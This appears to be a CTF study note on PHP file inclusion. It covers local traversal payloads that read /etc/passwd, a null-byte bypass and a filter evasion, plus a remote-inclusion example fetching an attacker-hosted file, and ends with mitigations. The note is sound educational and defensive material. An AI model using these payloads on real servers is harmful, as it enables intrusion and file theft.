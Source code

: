 ```yaml
---
title: File Inclusion
author: Throupy
date: 2024-06-09 00:00:00 +0000
categories: [CTF]
tags: [CTF, Web]
---
```


Also known as directory traversal, file inclusion is a vulnerability which allows an attacker to read operating system resources, such as local files on the server. This vulnerability is exploited by manipulating and abusing the web application’s URL to locate and access files stored outside of the application’s root directory.

File inclusion occurs when un-sanitised user input is passed to a function such as PHP’s `file_get_contents`. However the function is not the only facilitator of the issue. Often poor input validation / filtering is the cause of the vulnerability.

[PHP: file_get_contents - Manual](https://www.php.net/manual/en/function.file-get-contents.php)

Using `../../../etc/passwd` is a common way of testing for file inclusion, for example:

1. There is a URL `https://site.com/get.php?file=<FILE_NAME>`
2. The site expects a file parameter like “file.txt” or something inconspicuous.
3. The attacker can leverage this and make the application go up to the root directory by using `../`, and then get whatever file they want from the server.

## Local File Inclusion - PHP
[Good Wordlist here](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
Once again picking on PHP, there are functions such as `include`, `include_once`, `require` and `require_once` which include files from the local filesystem. For example:
```php
<?PHP
	include($_GET["lang"]);
?>
```
This would get the “lang” parameter from the URL. Assume this parameter would be `english.php` for the English site, or `spanish.php` for the Spanish site. As previously discussed, an attacked could use a payload of `../../../etc/passwd` to include that file, and therefore retrieve the contents. This works because in the above code snippet, no directory is passed to the include function, and there is no validation of the user’s parameter input.

In the above examples, we have the source code to look at, but in a black box test, it’s important to know the signs of a possible file inclusion vulnerability. A sign in a PHP application would be:
```php
Warning: include(languages/LOL.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
The message discloses important information - we can tell that the application appends `.php` onto the parameter (`LOL.php`), and looks for the file inside the `languages` directory. We can also see that the application directory is `/var/www/html/THM-4/`

So to read `/etc/passwd`, we could try the parameter as `../../../../etc/passwd` (note: 4 x `../` because 4 levels to application directory). However this wouldn’t work, as the application appends the `.php` onto the end, and the file `/etc/passwd.php` doesn’t exist. To get around this, we can use null bytes (0x00 / %00), which basically tells the application to disregard any following text.

The payload would look like: `../../../../../etc/passwd%00`.

NOTE: THE NULL BYTE TRICK IS FIXED IN PHP V5.3.4 AND ABOVE

Be careful of encoding e.g. URL encoding when submitting forms, maybe better to just use the URL or send a request manually.

### Avoiding String Filtering
If the developer adds some string filtering to replace `../` string with an empty string, you can simply double the payload, so it would be:
`....//....//....//....//....//etc/passwd`. This is because the PHP filter only matches the replaces the first subset string `../` it finds and doesn’t do another passwd, as shown below.

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png)

## Remote File Inclusion - PHP
RFI is a technique used to include remote files into a vulnerable application. Similar to LFI, RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into the `include` function. +

A requirement for RFI is that the `allow_url_fopen` option need to be `on`

The risk of RFI is higher than that of LFI, as RFI can allow an attacker gain remote code execution on the server. The RFI process is roughly as follows:

1. Attacker hosts malicious file ([site.com/bad_command.txt](http://site.com/bad_command.txt))
2. Attacker sends a payload including the location of the bad file-
    1. e.g. `http://victim.com/get.php?file=http://site.com/bad_command.txt`
3. The victim server retrieves the malicious file which is being hosted by the attacker
4. `bad_command.txt` is injected into the `include` function and executed.
5. The victim server sends back the result of the execution.

## Mitigation
1. Keep system, services and web app frameworks up to date
2. Turn of PHP errors to avoid leaking the application path
3. Web application firewalls
4. Disable PHP features that cause file inclusion (`allow_url_fopen`, `allow_url_include`)
5. Carefully analyze web application and only allow needed protocols and PHP wrappers
6. Never trust user input - SANITIZE!
7. Implement whitelisting for file names and locations (and also black listing)
